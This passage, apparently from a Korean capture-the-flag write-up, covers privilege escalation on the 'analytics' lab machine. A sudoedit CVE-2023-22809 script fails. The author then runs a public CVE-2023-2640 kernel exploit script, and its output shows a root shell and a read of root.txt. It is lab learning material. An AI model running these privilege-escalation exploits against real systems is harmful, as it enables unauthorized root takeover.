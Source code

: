 실제 공격을 진행해보았으나, metalytics 계정으로는 진행할 수 없다고 나온다....🤢
``` bash
metalytics@analytics:~$ ./cve-2023-22809.sh
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
> It doesn't seem that this user can run sudoedit as root
Do you want to proceed anyway? (y/N): y
> Opening sudoers file, please add the following line to the file in order to do the privesc:
metalytics ALL=(ALL:ALL) ALL
Press any key to continue...[sudo] password for metalytics:
metalytics is not in the sudoers file.  This incident will be reported.
```

결국 공략을 보았고, 커널 버전과 관련된 취약점을 찾아야한다는 것을 알았다. `6.2.0-25-generic #25~22.04.2-Ubuntu cve`로 검색하면 [cve-2023-2640](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main) 취약점 관련 내용이 나온다.
``` bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

바로 root를 획득할 수 있다.
``` bash
metalytics@analytics:~$ chmod +x cve-2023-2640.sh
metalytics@analytics:~$ ./cve-2023-2640.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~# whoami
root
root@analytics:~# cat /root/root.txt
```

## [0x03] conclusion
---
이번문제는 cve와 관련된 내용을 찾는 것이 중점이였다. cve로 시스템을 장악하는 경우는 많이 접해보지 않아 낯선 접근 방법이였다. 커널 취약점으로 인한 root 획득이라니...다양한 문제를 풀어봐야할듯 하다.
![](../assets/image_post/20240403114535.png)